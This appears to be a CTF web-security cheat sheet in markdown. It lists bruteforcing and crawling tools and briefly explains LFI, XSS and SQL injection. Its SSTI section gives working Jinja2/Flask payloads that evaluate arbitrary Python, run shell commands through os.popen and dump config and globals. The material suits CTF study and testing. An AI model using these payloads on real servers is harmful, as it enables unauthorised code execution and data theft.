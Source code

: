 ##  Web directory bruteforcers
- dirb(run dirb on terminal)
- dirbuster (requires GUI)
- gobuster (similar tool)
- dirsearch(faster alternative to dirb) [GitHub](https://github.com/maurosoria/dirsearch)
##  Web crawlers
- dirhunt [GitHub](https://github.com/Nekmo/dirhunt)
##  Packet utils
- Burp Suite (requires GUI) [Website](https://portswigger.net/burp)
- wget
## LFI (Local File Inclusion)
- Commonly found in PHP web application (maybe through Wordpress plugins etc)
- Vulnerable websites can allow you to access local files through directory traversal
- Look out for ways where you can supply a file path and it is served as a download/printed to the page
## XSS
- Stored XSS
> Website uses external resources that contains malicious code</br>
> If an SVG with XSS payload is in an iframe or embed of a website, it can be executed
- Reflected XSS
> When queries to a website is handled and returned in an unsafe way
- DOM based XSS
> Client side attack, browser executes payload that didn't came from the server
## SQL Injection
- Union based attack
> Application displays the output of the query, allowing you to steal information from the database
- Error based attack
> Application returns an error with details about the query, helping you to craft queries to bypass checks
- Resources
> Sqlmap [GitHub](https://github.com/sqlmapproject/)</br>
> Practice [Website](http://mystery.knightlab.com/)
## Server-side Template Injection (SSTI)
### Testing:  

```
{{ 7*'7' }}
    Twig: 49
    Jinja2: 7777777
{{ 7 }}
    Golang: 7
```

### How to perform the SSTI:
For Flask servers:

Get config:
`{{config}}`

Python RCE:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('<Python code here>') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

Execute shell statements:
```python
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("<SHELL STATEMENT HERE>").read()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```
Get all classes:
```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

Get local/global variables (from Python RCE)
```python
    {% for c in [].__class__.__base__.__subclasses__() %}
      {% if c.__name__ == 'catch_warnings' %}
        {% for b in c.__init__.__globals__.values() %}
        {% if b.__class__ == {}.__class__ %}
          {% if 'eval' in b.keys() %}
            {{ b['eval']('dict(globals(), **locals())') }}
          {% endif %}
        {% endif %}
        {% endfor %}
      {% endif %}
    {% endfor %}
```

For golang:
```
{{.<variable or function here>}}
```
Note that the dot is important.

- Reference/more info [GitHub](https://github.com/w181496/Web-CTF-Cheatsheet#ssti) / [Translated Version](https://github-com.translate.goog/w181496/Web-CTF-Cheatsheet?_x_tr_sl=zh-CN&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp#ssti)
- Payload for more languages [Website](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

## Identify Vulnerablilities
- Steps to test for CSRF [Guide](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery)
- Steps to test for Broken Authentication [Guide](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication)
